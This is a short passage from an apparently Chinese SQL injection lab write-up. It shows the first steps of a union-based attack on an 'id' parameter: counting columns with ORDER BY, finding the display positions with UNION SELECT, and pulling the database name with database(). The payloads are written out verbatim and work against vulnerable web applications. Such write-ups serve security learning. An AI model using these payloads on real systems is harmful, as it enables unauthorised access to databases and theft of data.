 #### 获取回显信息

用 `ORDER BY` 逐步增加排序, 在增加到 4 时报错, 说明字段数为 3 。

```url
?id=1' ORDER BY 4--+ 
```

![s1-2.png](s1-2.png)

联合查询来增加回显, 发现回显位为 2 和 3:

```url
?id=' UNION SELECT 1,2,3 --+
```

![s1-3.png](s1-3.png)

获取库名:

```url
?id=' UNION SELECT 1,database(),3 --+
```

![s1-4.png](s1-4.png)
